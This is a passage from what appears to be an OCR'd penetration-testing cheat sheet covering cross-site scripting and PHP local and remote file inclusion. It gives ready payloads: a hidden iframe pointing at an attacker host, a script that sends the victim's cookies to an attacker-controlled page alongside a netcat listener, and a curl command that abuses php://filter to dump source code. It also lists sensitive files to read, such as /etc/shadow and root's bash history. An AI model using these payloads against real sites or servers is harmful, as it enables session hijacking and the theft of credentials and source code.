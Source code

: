     -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection  
        <iframe SRC="http://$ip/report" height = "0" width
        ="0"></iframe>

    -   Stealing Cookies and Session Information  
        <script>  
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;  
        </script>  
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.  
        include("lang/".$\_COOKIE\['lang'\]);  
        include($\_GET\['page'\].".php");

    -   LFI - Encode and Decode a file using base64  
        curl -s
        http://$ip/?page=php://filter/convert.base64-encode/resource=index
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d

    -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root
